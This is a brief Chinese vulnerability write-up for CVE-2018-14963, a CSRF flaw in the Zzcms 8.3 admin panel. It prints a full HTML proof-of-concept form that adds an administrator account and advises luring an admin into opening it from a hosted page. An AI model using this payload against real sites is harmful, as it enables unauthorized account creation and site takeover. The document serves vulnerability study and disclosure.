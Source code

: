 # （CVE-2018-14963）Zzcms 8.3 csrf

> 原文：[http://book.iwonder.run/0day/Zzcms/CVE-2018-14963.html](http://book.iwonder.run/0day/Zzcms/CVE-2018-14963.html)

## 一、漏洞简介

## 二、漏洞影响

Zzcms 8.3

## 三、复现过程

csrf 漏洞，这个问题也是从上个版本就存在的问题，就是整个管理员后台的，所有表单都是没有设置 csrf 的 token 的，所以只要涉及到敏感操作的表单，都可以使用 csrf 来攻击，达成很多攻击利用。

这里的攻击是产生在了/admin/adminadd.php 的添加管理员操作，构造的表单如下：

```
<html>
  <body>
  <script>history.pushState('', '', '/')</script>
    <form action="http://0-sec.org:8080/admin/adminadd.php?action=add" method="POST">
      <input type="hidden" name="groupid" value="1" />
      <input type="hidden" name="admins" value="123" />
      <input type="hidden" name="passs" value="123" />
      <input type="hidden" name="passs2" value="123" />
      <input type="submit" value="Submit request" />
    </form>
  </body>
</html> 
```

构造好了 payload 以后，放到 vps 上，然后诱导管理员点击恶意链接，即可成功添加管理员。

未添加管理员之前：

![image](img/d9f5381cf3ef8409e6b1c9554c5ea898.png)

点击链接之后：

![image](img/99e7d54f70ac394168c2f1cb3d5e50f1.png)

## 参考链接

> [https://www.anquanke.com/post/id/156660](https://www.anquanke.com/post/id/156660)

